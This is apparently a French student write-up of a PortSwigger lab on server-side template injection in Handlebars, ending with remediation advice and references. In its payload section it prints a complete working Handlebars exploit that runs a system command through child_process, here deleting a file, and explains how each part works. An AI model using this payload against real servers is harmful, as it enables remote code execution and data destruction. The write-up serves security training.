



# Challenge 10: Server-side template injection in an unknown language with a documented exploit

## Nom / URL

**Nom du challenge :** Lab: Server-side template injection in an unknown language with a documented exploit  
**URL :** https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit  
**Niveau :** EXPERT

## Les étapes de découverte de la vulnérabilité

1. **Identification de la fonctionnalité vulnérable :**
   - L'application affiche des produits et permet de voir plus de détails sur le premier produit
   - Une requête GET utilise le paramètre `message` pour afficher `"Unfortunately this product is out of stock"` sur la page d'accueil
   - Le paramètre `message` semble être injecté directement dans un template

2. **Test initial d'injection de template :**
   - Tentative d'injection de syntaxe de template basique : `{{7*7}}` pour tester si l'application évalue les expressions
   - Observation : l'application ne semble pas évaluer directement les expressions simples

3. **Fuzzing pour identifier le moteur de template :**
   - Injection d'une chaîne de fuzzing contenant des syntaxes de différents langages de template : `${{<%[%'"}}%\`
   - **Découverte clé** : Lors de la soumission de syntaxe invalide, un message d'erreur apparaît dans la sortie
   - L'analyse de l'erreur révèle que l'application utilise **Handlebars** comme moteur de template

4. **Recherche d'un exploit documenté :**
   - Recherche en ligne pour "Handlebars server-side template injection"
   - Trouvé un exploit bien connu publié par `@Zombiehelp54` sur GitHub/Twitter
   - Cet exploit permet d'exécuter du code JavaScript arbitraire via des chaînes d'objets Handlebars

5. **Adaptation de l'exploit :**
   - L'exploit original utilise `require("child_process").exec()` pour exécuter des commandes système
   - Modification de l'exploit pour appeler : `require("child_process").exec("rm /home/carlos/morale.txt")`
   - L'exploit utilise des helpers Handlebars (`#with`, `split`, `pop`, `push`, `lookup`, `sub`, `apply`) pour construire et exécuter du code

6. **Encodage et exécution :**
   - Encodage URL complet du payload pour éviter les problèmes de parsing
   - Ajout du payload encodé comme valeur du paramètre `message` dans l'URL
   - Exécution réussie : le fichier `morale.txt` est supprimé du répertoire home de Carlos

## Le payload utilisé + screenshot

**Payload utilisé (exploit Handlebars) :**

```
wrtz{{#with "s" as |string|}} {{#with "e"}} {{#with split as |conslist|}} {{this.pop}} {{this.push (lookup string.sub "constructor")}} {{this.pop}} {{#with string.split as |codelist|}} {{this.pop}} {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}} {{this.pop}} {{#each conslist}} {{#with (string.sub.apply 0 codelist)}} {{this}} {{/with}} {{/each}} {{/with}} {{/with}} {{/with}} {{/with}}
```

**Explication du payload :**
- **`wrtz`** : Préfixe pour déclencher le traitement du template
- **`{{#with "s" as |string|}}`** : Crée une variable `string` avec la valeur "s"
- **`{{#with split as |conslist|}}`** : Utilise le helper `split` pour créer une liste de constructeurs
- **`{{this.pop}}` et `{{this.push ...}}`** : Manipule la liste pour ajouter des éléments
- **`{{lookup string.sub "constructor"}}`** : Accède au constructeur de la fonction `sub`
- **`{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}`** : Ajoute le code à exécuter
- **`{{#with (string.sub.apply 0 codelist)}}`** : Utilise `apply` pour exécuter le code construit
- **`{{this}}`** : Affiche/référence le résultat de l'exécution

**Payload encodé en URL (extrait) :**
```
wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d...
```

**Screenshots :**








## Les recommandations pour sécuriser cette vulnérabilité

### 1. Utiliser des templates statiques ou sandboxés
- **Templates statiques** : Utiliser des templates statiques qui ne permettent pas l'exécution de code arbitraire
- **Sandboxing** : Si l'exécution dynamique est nécessaire, utiliser un environnement sandboxé avec des restrictions strictes
- **Whitelist des helpers** : Limiter les helpers et fonctions disponibles dans les templates

### 2. Validation et sanitisation des entrées
- **Ne jamais injecter directement les entrées utilisateur** : Toutes les entrées utilisateur doivent être validées et échappées
- **Validation stricte** : Vérifier que les entrées ne contiennent pas de syntaxe de template
- **Encodage approprié** : Encoder les entrées pour éviter l'interprétation comme code de template

### 3. Séparation des données et du code
- **Principe de séparation** : Séparer clairement les données utilisateur du code de template
- **Variables pré-définies** : Utiliser uniquement des variables pré-définies et validées
- **Pas d'évaluation dynamique** : Éviter l'évaluation dynamique de code dans les templates

### 4. Configuration sécurisée du moteur de template
- **Désactiver les fonctionnalités dangereuses** : Désactiver les helpers et fonctions qui permettent l'exécution de code système
- **Restrictions d'accès** : Limiter l'accès aux objets système (comme `require`, `child_process`, etc.)
- **Version sécurisée** : Utiliser des versions du moteur de template qui ont des protections contre l'injection

### 5. Tests de sécurité et monitoring
- **Tests d'injection** : Inclure des tests qui vérifient la résistance aux injections de template
- **Monitoring des erreurs** : Surveiller les erreurs de template qui pourraient révéler des informations sensibles
- **Audit de sécurité** : Effectuer des audits réguliers pour identifier les vulnérabilités d'injection

## Références

**Source principale des recommandations :**

- **OWASP - Server-Side Template Injection** : https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-Side_Template_Injection
  - Cette page OWASP fournit des informations détaillées sur les vulnérabilités d'injection de template et les meilleures pratiques de sécurisation

**Références complémentaires :**

- **PortSwigger Web Security Academy - Server-side template injection** : https://portswigger.net/web-security/server-side-template-injection
  - Documentation officielle de PortSwigger sur les vulnérabilités d'injection de template

- **PortSwigger - Exploiting server-side template injection** : https://portswigger.net/web-security/server-side-template-injection/exploiting
  - Guide spécifique sur les techniques d'exploitation des injections de template

- **Handlebars Security** : https://handlebarsjs.com/guide/#security
  - Documentation officielle de Handlebars sur les considérations de sécurité

- **CWE-94: Code Injection** : https://cwe.mitre.org/data/definitions/94.html
  - Classification CWE de cette vulnérabilité avec des exemples et des solutions

- **OWASP Top 10 - A03:2021 Injection** : https://owasp.org/Top10/A03_2021-Injection/
  - Les vulnérabilités d'injection de template font partie de la catégorie Injection de l'OWASP Top 10
